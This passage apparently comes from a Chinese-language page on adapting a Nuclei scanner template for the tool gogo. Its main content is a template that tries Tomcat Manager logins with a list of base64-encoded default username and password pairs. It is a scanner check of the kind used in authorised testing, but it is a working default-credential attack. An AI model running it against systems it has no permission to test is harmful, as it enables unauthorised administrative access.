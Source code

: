 ```
    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - "Apache Tomcat"
          - "Server Information"
          - "Hostname"
        condition: and

      - type: status
        status:
          - 200
```

这是gogo中移植修改完的:
因为不支持动态的dsl, 所以需要将base64预先计算好, extractor 可以视情况保留, gogo支持extractor功能, 但是对于输出目前处理的并不是很优雅, 后续还会对此功能更新优化.

```
id: tomcat-manager-login
info:
  author: pdteam
  name: tomcat-manager-default-password
  severity: high
  tags: tomcat-manager
requests:
  - raw:
      - |
        GET /manager/html HTTP/1.1
        Host: {{Hostname}}
        Authorization: Basic {{auth}}
        User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0
    attack: sniper
    stop-at-first-match: true
    matchers:
      - status:
          - 200
        type: status
      - type: word
        words:
          - Apache Tomcat
    extractors:
      - type: regex
        name: cookie
        internal: true
        part: header
        regex:
          - 'JSESSIONID\..*=([a-z0-9.]+)'
    matchers-condition: and
    payloads:
      auth:
        - dG9tY2F0OnRvbWNhdA==
        - dG9tY2F0OnMzY3JldA==
        - YWRtaW46YWRtaW4=
        - b3Z3ZWJ1c3I6T3ZXKmJ1c3Ix
        - ajJkZXBsb3llcjpqMmRlcGxveWVy
        - Y3hzZGs6a2RzeGM=
        - QURNSU46QURNSU4=
        - eGFtcHA6eGFtcHA=
        - UUNDOlFMb2dpYzY2
        - YWRtaW46dG9tY2F0
        - cm9vdDpyb290
```